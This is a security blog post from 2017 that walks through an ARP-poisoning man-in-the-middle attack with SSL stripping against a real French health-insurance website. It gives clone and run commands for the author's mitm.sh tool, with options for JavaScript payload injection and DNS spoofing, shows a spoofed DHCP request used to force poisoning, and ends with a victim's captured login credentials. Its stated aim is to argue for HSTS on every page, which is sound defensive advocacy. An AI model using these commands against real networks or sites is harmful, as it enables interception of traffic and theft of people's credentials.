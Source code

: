 ```yaml
---
layout: post
title:  "MITM, HSTS, and HTTP landing page in practice"
date:   2017-03-27
categories: mitm
---
```

<br />
Hi everybody,  
  
I already wrote some articles talking about the importance of implementing the HTTP Strict Transport Security ([HSTS](https://https.cio.gov/hsts/)) and to secure all the webpages, even the landing page.  
  
**Why all the pages should be secure ?**  
  
Because all the trafic should be hidden from prying eyes. If an attacker could interfer with only one page, several options are available to him. He can strip all secure headers, redirect trafic, change web page content, force HTTP trafic, and so on.  
Every case is different but keep in mind that if the victim is able to generate a plain HTTP request (http://website.com), the attacker can control all the trafic.  
  
However, if a ressource has been cached with HSTS, the browser will automatically do an internal redirect (Code 307).  
But what if HSTS has never been cached ? so we will be able to fool a victim an maintain an plain text connection as we will see (we won't deal with any certificate faking here.  
  
In our example we will do a **MITM** attack between a Kali VM and the [french social welfare website](http://ameli.fr). You can find so many other websites, even some online bank websites to reproduce the attack.  
MITM attacks still succeed if you are not protected with some soft/hardware dropping unsolicited ARP responses ([RFC 826](https://tools.ietf.org/html/rfc826)).  
  
So stop talking, go for the show:  
![pic1]({{ site.url }}/public/images/mitm-example/pic1.png)  
  
We have here a non-secure HTTP landing page. What happens if we click on *"Mon compte ameli"* in order to log in ?  
![pic2]({{ site.url }}/public/images/mitm-example/pic2.png)  
  
So we have a secure login page.  What about the response headers ?  
![pic3]({{ site.url }}/public/images/mitm-example/pic3.png)  
  
Another check:  
  
```bash
root@kali:/tmp$ nmap -p 443 --script http-hsts-verify assure.ameli.fr 
Starting Nmap 7.40 ( https://nmap.org ) at 2017-03-27 20:08 CEST
Nmap scan report for assure.ameli.fr (93.174.145.36)
Host is up (0.016s latency).
PORT    STATE SERVICE
443/tcp open  https
| http-hsts-verify: 
|_  HSTS is not configured.

Nmap done: 1 IP address (1 host up) scanned in 0.65 seconds
```
  
I created a wrapper script to manage all the tools involved in the MITM attack. My advice is to run it on a Kali machine. However it will automatically download the web proxy that we will use ([Mitmproxy](https://mitmproxy.org/)).  
  
```bash
root@kali:/tmp$ git clone https://github.com/phackt/mitm.git && cd ./mitm
Clonage dans 'mitm'...
remote: Counting objects: 49, done.
remote: Compressing objects: 100% (34/34), done.
remote: Total 49 (delta 15), reused 35 (delta 9), pack-reused 0
Dépaquetage des objets: 100% (49/49), fait.
root@kali:/tmp/mitm$ sudo ./mitm.sh
Usage: ./mitm.sh [-g] [-n] [-s] [-x] [-j] <js payload url> [-d] [-i] <interface> gateway_ip target_ip
       [-g] interactive mode for mitmproxy
       [-n] capture HTTP traffic
       [-s] capture HTTPS traffic
       [-x] stripping https
       [-j] inject js payload
       [-d] dnsspoof + setoolkit
       [-i] interface
```  
  
We are almost ready for our mitm attack. We will specify the interactive mode (mitmproxy GUI), the capture HTTP traffic mode only (not faking certificates) and we will apply our custom **sslstrip.py** script.  
  
If you check in details my github repo [https://github.com/phackt/mitm](https://github.com/phackt/mitm), you will find a **bin** folder with some others tools:  
 - **arpoison.sh** to automate ARP poisoning  
 - **chk_poison.py** which will check if an ARP poisoning is successful  
  
First let's check the ips:  
  
```bash
root@kali:/tmp/mitm# route -n
Table de routage IP du noyau
Destination     Passerelle      Genmask         Indic Metric Ref    Use Iface
0.0.0.0         192.168.1.1     0.0.0.0         UG    600    0        0 wlan0
root@kali:/tmp/mitm# nmap -sn 192.168.1.1/24
...
Nmap scan report for kali.home (192.168.1.19)
Host is up (0.00012s latency).
...
```  
  
Now run mitm.sh  
  
```bash
root@kali:/tmp/mitm# ./mitm.sh -g -n -x -i wlan0 192.168.1.1 192.168.1.19
INTERACTIVE_MODE On
HTTP_INTERCEPTION On
HTTPS_STRIPPING On

Installing mitmproxy v1, please wait...

--2017-03-27 20:49:08--  https://github.com/mitmproxy/mitmproxy/releases/download/v1.0/mitmproxy-1.0.0post1-linux.tar.gz
Résolution de github.com (github.com)… 192.30.253.113, 192.30.253.112
Connexion à github.com (github.com)|192.30.253.113|:443… connecté.
requête HTTP transmise, en attente de la réponse… 302 Found
Emplacement : https://github-cloud.s3.amazonaws.com/releases/519832/3dcda87e-cbe7-11e6-90f5-73a30be85192.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAISTNZFOVBIJMK3TQ%2F20170327%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20170327T194852Z&X-Amz-Expires=300&X-Amz-Signature=584985dd5837498f44b588a4bd9f6378f1e12783e75b6dc2ec1acca2772da86f&X-Amz-SignedHeaders=host&actor_id=0&response-content-disposition=attachment%3B%20filename%3Dmitmproxy-1.0.0post1-linux.tar.gz&response-content-type=application%2Foctet-stream [suivant]
--2017-03-27 20:49:08--  https://github-cloud.s3.amazonaws.com/releases/519832/3dcda87e-cbe7-11e6-90f5-73a30be85192.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAISTNZFOVBIJMK3TQ%2F20170327%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20170327T194852Z&X-Amz-Expires=300&X-Amz-Signature=584985dd5837498f44b588a4bd9f6378f1e12783e75b6dc2ec1acca2772da86f&X-Amz-SignedHeaders=host&actor_id=0&response-content-disposition=attachment%3B%20filename%3Dmitmproxy-1.0.0post1-linux.tar.gz&response-content-type=application%2Foctet-stream
Résolution de github-cloud.s3.amazonaws.com (github-cloud.s3.amazonaws.com)… 54.231.114.227
Connexion à github-cloud.s3.amazonaws.com (github-cloud.s3.amazonaws.com)|54.231.114.227|:443… connecté.
requête HTTP transmise, en attente de la réponse… 200 OK
Taille : 70081542 (67M) [application/octet-stream]
Sauvegarde en : « /tmp/mitm/mitmproxy/mitmproxy.tar »

/tmp/mitm/mitmproxy/mitmproxy.tar     100%[=======================================================================>]  66,83M  4,94MB/s    in 14s     

2017-03-27 20:49:23 (4,82 MB/s) — « /tmp/mitm/mitmproxy/mitmproxy.tar » sauvegardé [70081542/70081542]

mitmproxy
mitmdump
mitmweb

Installation done.

Flushing iptables...
Setting configuration...
No poisoning between 192.168.1.1 -> 192.168.1.19
Do you want to force poisoning? [Yn]:Y
Trying DHCP REQUEST to poison 192.168.1.1...
no answer
Poisoning successful!!!
```  
  
**chk_poison.py** can try to force poisoning (works on Orange Livebox) by sending a spoofed DHCP request. The router will automatically generate ARP request after that and will legitimate our spoofed ARP responses.  
  
So now we are definitely ready to intercept the trafic.  
![pic4]({{ site.url }}/public/images/mitm-example/pic4.png)  
  
Now imagine that the victim is surfing on http://www.ameli.fr.  
![pic5]({{ site.url }}/public/images/mitm-example/pic5.png)  
  
We see the trafic passing through the attacker machine.  
From the victim's point of view, everything seems transparent... but notice a detail:  
![pic6]({{ site.url }}/public/images/mitm-example/pic6.png)  
  
*https://assure.ameli.fr* became *http://assure.ameli.fr*. Our script will know that it will have to replay the secure connection on the other side. Now when our victim wants to access the login page:  
![pic7]({{ site.url }}/public/images/mitm-example/pic7.png)  
  
Everything seems ok, except.... Where is the green padlock ![padlock]({{ site.url }}/public/images/mitm-example/padlock.png) ???  
So here we are, **sslstrip.py** has done its job, switching every https links into http, deleting every secure headers (HSTS too, so if not cached, the attack will succeed). The script will remind what domains need SSL/TLS and replay the connections in a secure manner with the destination website.  

So we have **Victim <- HTTP -> Attacker (Mitmproxy) <- HTTPS -> Website**.  We can now intercept all the trafic in clear.  
  
Don't be impatient, the victim will log in a few seconds.  
![pic8]({{ site.url }}/public/images/mitm-example/pic8.png)  
  
In our proxy we can see the post request. Let's check the details:  
![pic9]({{ site.url }}/public/images/mitm-example/pic9.png)  
  
Credentials have been stolen.  
And from our victim, is this transparent ?:  
![pic10]({{ site.url }}/public/images/mitm-example/pic10.png)  
  
A lot of people will not notice that the connection is not secure (except you infosec ninjas) and will keep on surfing.  
  
Is it really much more expensive to have all the pages secure ? [HSTS](https://tools.ietf.org/html/rfc6797) is also just one header in the response that can easily be added. Companies should also think to have their domain in the preload list in order to perform a 307 internal redirect from the very first request.  
Finally we can not talk here about vulnerability, but more as a lack of responsability.   
  
I sincerely hope you enjoyed as i liked to do this post.  
Feel free to comment if you have any question, or if you find other cool domains.  
  
Tchuss,  
Phackt.  
  
References:
 - [https://nmap.org/nsedoc/scripts/http-hsts-verify.html](https://nmap.org/nsedoc/scripts/http-hsts-verify.html)  
 - [https://www.owasp.org/index.php/HTTP_Strict_Transport_Security_Cheat_Sheet](https://www.owasp.org/index.php/HTTP_Strict_Transport_Security_Cheat_Sheet)  

